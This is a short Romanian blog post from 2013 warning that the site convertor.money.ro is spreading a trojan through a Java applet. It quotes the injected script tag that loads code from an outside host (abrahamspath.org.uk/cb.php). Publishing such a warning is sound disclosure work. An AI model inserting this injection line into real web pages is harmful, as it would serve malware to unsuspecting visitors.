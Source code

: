 ```yaml
---
id: 60
title: Convertor.money.ro imprastie malware!
date: 2013-01-08T11:45:22+00:00
author: Silviu Stroe
layout: post
guid: http://silviu-s.com/?p=60
permalink: /convertor-money-ro-imprastie-malware/
dpsp_networks_shares:
  - 'a:0:{}'
tags:
  - convertor
  - infectat
  - malware
  - money.ro
  - site
---
```

Site-ul convertor.money.ro imprastie  de peste 2 saptamani <a title="money.ro malware" href="http://i.imgur.com/bAoz5.png" target="_blank">malware</a> cu ajutorul unui applet java. Se pare ca site-ul are injectat pe prima linie un cod malitios

<pre class="brush: php; title: ; notranslate" title="">&lt;script type="text/javascript" src="&lt;a href="http://abrahamspath.org.uk/cb.php" target="_blank"&gt;http://abrahamspath.org.uk/cb.php&lt;/a&gt;"&gt;"POC"&lt;/script&gt;
</pre>

catre un site extern. Asa ca, daca folositi website-ul aveti grija sa nu rulati java pe aceasta pagina, pentru ca riscati sa va infectati cu un troian de toata frumusetea! 🙂